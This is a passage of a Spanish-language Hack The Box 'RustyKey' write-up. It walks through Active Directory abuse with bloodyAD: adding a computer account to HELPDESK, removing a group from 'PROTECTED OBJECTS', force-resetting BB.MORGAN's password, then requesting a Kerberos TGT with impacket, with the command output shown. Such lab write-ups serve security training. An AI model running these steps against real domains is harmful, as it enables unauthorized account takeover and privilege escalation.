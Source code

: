 Una vez añadido, vamos a ejecutar la herramienta de esta forma:

```shell
ntpdate rustykey.htb ; python3 bloodyAD.py -d rustykey.htb -u IT-COMPUTER3 -k --host dc.rustykey.htb add groupMember HELPDESK 'CN=IT-Computer3,OU=Computers,OU=IT,DC=rustykey,DC=htb'
```

Info:

```
2025-10-15 11:17:15.917363 (-0700) +3.081702 +/- 0.016037 rustykey.htb 10.10.11.75 s1 no-leap
CLOCK: time stepped by 3.081702
[+] CN=IT-Computer3,OU=Computers,OU=IT,DC=rustykey,DC=htb added to HELPDESK
```

Ahora podremos forzar el cambio de contraseñas de dichos usuarios que vimos antes, pero el que mas nos interesa es el de `BB.MORGAN` que tiene lo siguiente:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-10-15 122619.png" alt=""><figcaption></figcaption></figure>

Veremos que esta dentro de un grupo antes llamado `PROTECTED OBJECTS` si intentamos cambiarle la contraseña veremos que no nos deja por alguna proteccion de este grupo, por lo que vamos a eliminarle de este grupo y posteriormente cambiarle la contraseña, ya despues de eso veremos que esta en el grupo `REMOTE MANAGEMENT USERS` por lo que nos podremos conectar por `WinRM` con dicho usuario.

### Eliminación del grupo PROTECTED OBJECTS

```shell
ntpdate rustykey.htb ; python3 bloodyAD.py -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' remove groupMember 'PROTECTED OBJECTS' 'IT'
```

Info:

```
2025-10-15 11:31:34.757410 (-0700) +4.147917 +/- 0.014059 rustykey.htb 10.10.11.75 s1 no-leap
CLOCK: time stepped by 4.147917
[+] IT removed from PROTECTED OBJECTS
```

### Cambio de contraseña del usuario BB.MORGAN

```shell
ntpdate rustykey.htb ; python3 bloodyAD.py -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' set password bb.morgan 'P@ssw0rd!'
```

Info:

```
2025-10-15 11:37:24.005034 (-0700) +0.944120 +/- 0.013643 rustykey.htb 10.10.11.75 s1 no-leap
CLOCK: time stepped by 0.944120
[+] Password changed successfully!
```

Con esto veremos que cambiamos la contraseña del usuario `BB.MORGAN` de forma correcta por lo que vamos a solicitar el `TGT` del usuario con esta nueva contraseña.

```shell
ntpdate rustykey.htb ; impacket-getTGT rustykey.htb/'bb.morgan':'P@ssw0rd!'
```
